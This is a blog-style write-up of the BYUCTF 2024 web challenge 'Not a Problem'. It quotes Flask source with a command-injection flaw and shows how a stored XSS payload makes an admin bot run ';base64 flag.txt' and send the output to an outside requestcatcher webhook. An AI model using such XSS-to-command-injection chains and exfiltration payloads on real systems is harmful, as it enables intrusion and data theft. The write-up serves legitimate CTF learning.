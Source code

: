 ```yaml
---
layout: post
title: BYUCTF 2024 | Not a Problem-writeup
date: 2024-05-23
tags: ['BYUCTF24']
---
```

# Web/Not A Problem Writeup

## Challenge Description
The challenge gives us two links, one for the admin bot and other for the server.
- The admin bot visits the url endpoint given by user input with the cookie `secret` set.
- On the server we can view or add stats, there is one aditional endpoint `/api/date` which is only accessible when you have the `secret` cookie. (which we have no way to get) 
- flag.txt in the current directory that contains the challenge flag.

Source code of the major endpoints is as given
```python

@app.route('/api/stats/<string:id>', methods=['GET'])
def get_stats(id):
    for stat in stats:
        if stat['id'] == id:
            return str(stat['data'])
        
    return '{"error": "Not found"}'


# add stats
@app.route('/api/stats', methods=['POST'])
def add_stats():
    try:
        username = request.json['username']
        high_score = int(request.json['high_score'])
    except:
        return '{"error": "Invalid request"}'
    
    id = str(uuid.uuid4())

    stats.append({
        'id': id,
        'data': [username, high_score]
    })
    return '{"success": "Added", "id": "'+id+'"}'

# current date
@app.route('/api/date', methods=['GET'])
def get_date():
    # get "secret" cookie
    cookie = request.cookies.get('secret')

    # check if cookie exists
    if cookie == None:
        return '{"error": "Unauthorized"}'
    
    # check if cookie is valid
    if cookie != SECRET:
        return '{"error": "Unauthorized"}'
    
    modifier = request.args.get('modifier','')
    
    return '{"date": "'+subprocess.getoutput("date "+modifier)+'"}'

```

## Solution

It looks like the parameter `modifier` of the /api/date is vulnerable to os command injection

`return '{"date": "'+subprocess.getoutput("date "+modifier)+'"}'`

It is returning the date but passing the modifier into the subprocess.getoutput() directly without input validation, so we can inject our command into modifier parameter. But the endpoint is only accessible by the admin bot. Next we need to find a way to make the admin bot visit this endpoint with our command injection payload.

On examining the `/api/stats/<string:id>` endpoint, we see that the username is returned as it is without validation, so there is possibly `XSS`. By sending the POST request to `/api/stats` with body:
```json
{
"username":"<script>alert("XSS")</script>",
"high_score":1337
}

``` 
 and visiting the stats of the id recieved, we got the alert on our screen, hence `XSS` is achieved.

Now that we have `XSS` and `command injection` vulnerabilities let's chain them to read the flag. so basically we need to: 

- make the admin visit the `/api/date` with our command injection payload to read the flag. 
- return the response to our web hooker

but `/api/date` endpoint is banned to use in the url bar of the admin bot.
So we leverage the `XSS` on `/api/stats/<string:id>` endpoint to make admin bot redirect to `/api/date` with username payload :
```js
<script>fetch('http://127.0.0.1:1337/api/date?modifier={payload-here}')</script>
```

Next we need to be able to return the output to our web hook, so we set up our webhook and our revised username payload becomes:

 ```js
 <script>fetch('http://127.0.0.1:1337/api/date?modifier=; echo "Hello"').then(resp=>resp.text()).then((data)=>{document.location='https://mitsurisenpai.requestcatcher.com?b='+JSON.stringify(data)})</script>
 ``` 

 We recieved the request on our webhook: `GET /?b=%22{\%22date\%22:%20\%22Mon%20May%2020%2013:24:23%20UTC%202024\nHello\%22}%22`

 The command injection is successful, now to get the flag the final payload we used was:

 ```js
 <script>fetch('http://127.0.0.1:1337/api/date?modifier=;base64 flag.txt').then(resp=>resp.text()).then((data)=>{document.location='https://mitsurisenpai.requestcatcher.com?b='+JSON.stringify(data)})</script>
 ```

 (We used the base64 to avoid confusion between special characters and url encoding on the flag)

 By sending this we recieved this request:
 `GET /?b=%22{\%22date\%22:%20\%22Mon%20May%2020%2013:30:33%20UTC%202024\nYnl1Y3RmeyJub3RfYV9wcm9ibGVtIl9ZRUFIX1JJR0hUfQ==\%22}%22`

 On decoding the base64 part `Ynl1Y3RmeyJub3RfYV9wcm9ibGVtIl9ZRUFIX1JJR0hUfQ==` , we recieved the flag :

 `byuctf{"not_a_problem"_YEAH_RIGHT}` 